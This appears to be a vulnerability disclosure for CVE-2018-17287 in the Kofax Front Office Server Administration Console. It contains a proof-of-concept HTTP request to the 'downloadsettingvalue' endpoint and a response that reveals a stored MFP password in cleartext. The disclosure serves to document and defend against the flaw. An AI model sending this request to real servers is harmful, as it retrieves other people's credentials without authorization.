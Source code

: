 #CVE-2018-17287-Information Disclosure

In Kofax Front Office Server Administration Console 4.1.1.11.0.5212,some fields, such as passwords, are obfuscated in the front-end, but the cleartext value can be exfiltrated by using the back-end "download" feature, as demonstrated by an mfp.password downloadsettingvalue operation.


<img src="info.png">
<br />


##### Request:
```
GET /Kofax/KFS/Admin/SettingsService/settings/customization/downloadsettingvalue/mfp.ricoh.properties/mfp.password/ HTTP/1.1
Host: *****************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: KFS_AUTH_ADMIN=e3129819-d807-48ec-8ae8-efdb76388c4e
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

##### Response:
```
HTTP/1.1 200 OK
Cache-Control: max-age=3600
Content-Type: application/xml
Server: Microsoft-IIS/8.5
Content-Disposition: attachment; filename=mfp.password.xml
Set-Cookie: fileDownload=true; path=/
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
Date: Wed, 23 May 2018 12:21:32 GMT
Connection: close
Content-Length: 5

ricoh
```
